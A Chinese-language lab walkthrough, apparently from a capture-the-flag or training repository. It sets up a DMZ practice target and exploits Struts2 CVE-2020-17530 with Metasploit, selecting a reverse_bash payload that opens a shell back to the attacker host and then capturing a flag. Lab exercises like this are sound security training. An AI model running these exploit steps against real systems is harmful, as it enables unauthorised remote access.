

# DMZ环境搭建

## 实验环境

- 靶机IP:192.168.157.131
- 攻击机IP: 192.168.93.130

## 网卡搭建
在/DMZ/raw-content.json中获取相关网卡信息



添加到网卡管理中


## 场景编排
在/DMZ/raw-content.json中依次查找所需镜像


拉取所需的镜像后进行编排


发布后启动场景,并访问网页：
```
http://192.168.157.131:48708/
```


## 配置流量捕获

在启动了场景之后，可以通过下面的命令开启对 struts2-cve_2020_17530的流量捕获
```
docker ps
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


## 攻击入口靶标
在攻击机中执行下面命令后进入msfconsole
```bash
sudo apt install -y metasploit-framework
sudo msfdb init
msfconsole
```


确认已连接 pgsql
```bash
db_status
# 建立工作区
workspace -a manbo
```


查找相关执行漏洞并使用
```
search struts2 type:exploit
use id
```


查看payloads并使用
```
show payloads
set payload payload/cmd/unix/reverse_bash
set RHOSTS 192.168.157.131  #靶机ip
set RPORT 48708 #靶机端口
set LHOST  192.168.93.130 #攻击机器ip
```


查看配置参数
```
show options
```


执行攻击
```
run -j
```


列出所有shell并进行信息获取
```
sessions -l
sessoons -i id
```


至此,获取入口靶标为flag-{bmh79d4a390-f8e4-499d-b115-33c3c4b0fb26}